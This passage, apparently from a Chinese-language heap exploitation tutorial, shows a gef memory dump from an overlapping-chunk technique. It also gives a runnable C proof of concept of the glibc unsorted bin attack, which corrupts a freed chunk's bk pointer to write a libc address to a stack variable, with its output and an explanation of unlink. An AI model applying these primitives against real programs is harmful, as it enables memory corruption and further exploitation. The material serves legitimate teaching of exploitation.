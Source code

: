 再次 malloc，将目标地址包含进来即可，现在我们就成功控制了目标内存：
```
gef➤  x/12gx 0x602010+0xfffffffffffff050
0x601060:	0x4141414141414141	0x4141414141414141
0x601070:	0x4141414141414141	0x0000000000000041  <-- chunk 2
0x601080 <bss_var>:	0x2073692073696854	0x676e697274732061  <-- target
0x601090 <bss_var+16>:	0x6577207461687420	0x6f7420746e617720
0x6010a0 <bss_var+32>:	0x6972777265766f20	0x00000000002e6574
0x6010b0:	0x0000000000000000	0x0000000000000f69  <-- top chunk
```

#### unsorted_bin_attack
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    unsigned long stack_var = 0;
    fprintf(stderr, "The target we want to rewrite on stack: %p -> %ld\n\n", &stack_var, stack_var);

    unsigned long *p = malloc(0x80);
    unsigned long *p1 = malloc(0x10);
    fprintf(stderr, "Now, we allocate first small chunk on the heap at: %p\n",p);

    free(p);
    fprintf(stderr, "We free the first chunk now. Its bk pointer point to %p\n", (void*)p[1]);

    p[1] = (unsigned long)(&stack_var - 2);
    fprintf(stderr, "We write it with the target address-0x10: %p\n\n", (void*)p[1]);

    malloc(0x80);
    fprintf(stderr, "Let's malloc again to get the chunk we just free: %p -> %p\n", &stack_var, (void*)stack_var);
}
```
```
$ gcc -g unsorted_bin_attack.c 
$ ./a.out 
The target we want to rewrite on stack: 0x7ffc9b1d61b0 -> 0

Now, we allocate first small chunk on the heap at: 0x1066010
We free the first chunk now. Its bk pointer point to 0x7f2404cf5b78
We write it with the target address-0x10: 0x7ffc9b1d61a0

Let's malloc again to get the chunk we just free: 0x7ffc9b1d61b0 -> 0x7f2404cf5b78
```
unsorted bin 攻击通常是为更进一步的攻击做准备的，我们知道 unsorted bin 是一个双向链表，在分配时会通过 unlink 操作将 chunk 从链表中移除，所以如果能够控制 unsorted bin chunk 的 bk 指针，就可以向任意位置写入一个指针。这里通过 unlink 将 libc 的信息写入到我们可控的内存中，从而导致信息泄漏，为进一步的攻击提供便利。

unlink 的对 unsorted bin 的操作是这样的：
```c
          /* remove from unsorted list */
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```
其中 `bck = victim->bk`。

